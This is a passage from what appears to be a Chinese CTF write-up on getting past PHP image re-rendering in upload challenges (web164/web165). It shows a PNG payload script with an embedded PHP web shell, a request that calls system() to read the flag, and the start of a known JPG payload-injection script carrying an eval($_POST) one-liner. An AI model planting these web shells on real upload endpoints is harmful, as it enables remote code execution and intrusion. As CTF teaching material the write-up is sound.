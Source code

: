 ```cobol
   imagesetpixel($img, round($y / 3), 0, $color);
}
 
imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */

?>
```

然后上传 发现存在查看图片

我们进入

然后发送请求

```cobol
&0=system
 
 
post
 
1=cat f*
```

即可获得flag



<img src="https://i-blog.csdnimg.cn/blog_migrate/b0667c475116ab75521f388fba04cd41.png" alt="" style="max-height:880px; box-sizing:content-box;" />


## web165  JPG二次渲染

就不写了 贴个脚本

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */
		
    $miniPayload = "<?=eval(\$_POST[7]);?>"; //注意$转义
```